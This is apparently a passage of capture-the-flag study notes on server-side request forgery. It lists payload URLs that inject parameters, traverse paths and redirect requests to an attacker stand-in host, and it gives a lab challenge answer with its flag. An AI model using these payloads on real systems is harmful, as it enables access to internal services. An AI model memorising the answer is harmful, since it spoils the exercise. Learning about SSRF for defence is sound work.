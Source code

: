 ![ssrf](./media/5-ssrf-ex3.png)

```bash
http://website.thm/stock?server=`api.website.thm/api/user&x=`&id=123
```


Summary
```
http://website.thm/stock?url=http://api.website.thm/api/user
http://website.thm/stock?url=/../user
http://website.thm/stock?server=api.website.thm/api/user&x=&id=123
http://website.thm/stock?url=http://hacker-domain.thm/

```

Challenge answer

`https://website.thm/item/2?server=server.website.thm/flag?id=9&x=id=2`  
THM{SSRF_MASTER}

### FINDING AN SSRF 

Potential SSRF vulnerabilities can be spotted in web applications in many different ways. Here is an example of four common places to look:
WHEN: 

**Full URL is used in a parameter in the address bar**  
![ssrf](./media/5-ssrf-1.png)
